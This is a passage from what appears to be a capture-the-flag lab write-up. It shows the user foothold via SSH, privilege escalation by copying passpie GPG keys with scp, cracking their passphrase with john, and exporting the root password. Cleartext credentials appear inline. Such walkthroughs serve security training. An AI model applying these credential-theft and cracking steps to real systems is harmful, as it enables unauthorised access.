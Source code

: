```bash
ssh jnelson@10.10.11.186
# Password: Cb4_JmWM8zUZWMu@Ys

# 5. User flag retrieval
cat ~/user.txt
```

### 🔓 Phase 5: Privilege Escalation via Passpie

```bash
# 1. Local enumeration
ls -la ~
# → Discovery of .passpie/

# 2. GPG keys transfer
scp jnelson@10.10.11.186:/home/jnelson/.passpie/.keys ./keys

# 3. GPG hash extraction
gpg2john keys > keys.hash

# 4. Passphrase cracking
john --wordlist=/usr/share/wordlists/rockyou.txt keys.hash --format=gpg
# → Result: blink182
```

### 👑 Phase 6: Root Access (on target machine)

```bash
# 1. Passpie passwords export
passpie export ~/password.db
# Passphrase: blink182

# 2. Read exported file
cat ~/password.db
# → root password: p7qfAZt4_A1xo_0x

# 3. Root connection
su root
# Password: p7qfAZt4_A1xo_0x

# 4. Root flag retrieval
cat /root/root.txt
```

---

## 🔗 Attack Chain Summary

<div class="bg-white dark:bg-dark-navbar px-6 py-5 rounded-xl shadow-lg my-8">
    <h3 class="text-2xl font-bold text-portfolio-violet mb-4 flex items-center">
        <i class="fas fa-sitemap mr-3"></i>Summarized Attack Chain
    </h3>
    <div class="space-y-4">
        <div class="flex items-start gap-4 p-4 bg-blue-50 dark:bg-blue-900/20 rounded-lg border-l-4 border-blue-500">
            <div class="text-3xl font-bold text-blue-500 mt-1">1</div>
            <div class="flex-1">
                <div class="font-bold text-blue-600 dark:text-blue-400">Reconnaissance and enumeration</div>
                <div class="text-sm text-gray-600 dark:text-gray-400">Nmap → WordPress → BookingPress 1.0.10</div>
            </div>
        </div>
        <div class="flex items-start gap-4 p-4 bg-green-50 dark:bg-green-900/20 rounded-lg border-l-4 border-green-500">
            <div class="text-3xl font-bold text-green-500 mt-1">2</div>